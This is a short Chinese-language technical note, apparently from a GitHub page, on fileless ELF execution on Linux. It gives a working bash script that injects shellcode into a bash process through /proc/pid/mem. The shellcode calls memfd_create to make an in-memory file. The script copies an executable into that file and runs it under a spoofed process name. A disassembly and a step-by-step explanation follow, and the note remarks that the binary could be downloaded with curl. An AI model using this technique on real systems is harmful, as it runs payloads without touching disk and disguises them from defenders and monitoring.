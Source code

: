 # 无文件执行 elf
```bash
echo 'pid=$$
sc="\x68\x44\x44\x44\x44\x48\x89\xe7\x48\x31\xf6\x48\x89\xf0\xb4\x01\xb0\x3f\x0f\x05\x48\x89\xc7\xb0\x4d\x0f\x05\xb0\x22\x0f\x05"
addr=$(cat /proc/$pid/syscall | cut -d" " -f9)
exec 3>/proc/$pid/mem
tail -c +$((addr+1)) <&3 >/dev/null 2>&1
printf $sc >&3' | bash -s &

pid=$!
cd /proc/$pid/fd
while [ ! -f 4 ]; do sleep 0.5; done
cat /usr/bin/ping > 4
( exec -a bbbb ./4 baidu.com & )
kill $pid
```
解释:
1. 通过修改bash进程的内存执行shellcode,在内存中创建文件,然后执行它
2. 第2行的意思是在内存中创建一个名为 `DDDD` 的文件
    ```
    0:  68 44 44 44 44       push   0x44444444         rsp -> "DDDD"
    5:  48 89 e7             mov    rdi,rsp            rdi -> "DDDD"
    8:  48 31 f6             xor    rsi,rsi            rsi = 0
    b:  48 89 f0             mov    rax,rsi            rax = 0
    e:  b4 01                mov    ah,0x1             rax = 0x100
    10: b0 3f                mov    al,0x3f            rax = 0x13f
    12: 0f 05                syscall                   memfd_create("DDDD",0)
    14: 48 89 c7             mov    rdi,rax            rdi = 4
    17: b0 4d                mov    al,0x4d            rax = 77
    19: 0f 05                syscall                   ftruncate(4,0)
    1b: b0 22                mov    al,0x22            rax = 34
    1d: 0f 05                syscall                   pause
    ```
3. 第3~6行找到bash进程的即将调用的syscall的位置然后写入sc
4. 第10行等待bash执行shellcode,实测一般1~2秒
5. 第11行将格式为elf的可执行文件写入文件描述符 `4` ,既可以是 `curl` 下载的网络文件,也可以是 `base64` 处理过的文本文件,这里以 `ping` 为例
6. 第12行替换进程名称 `4` 为 `bbbb`
7. 最后杀死bash,且不影响 `4` 的执行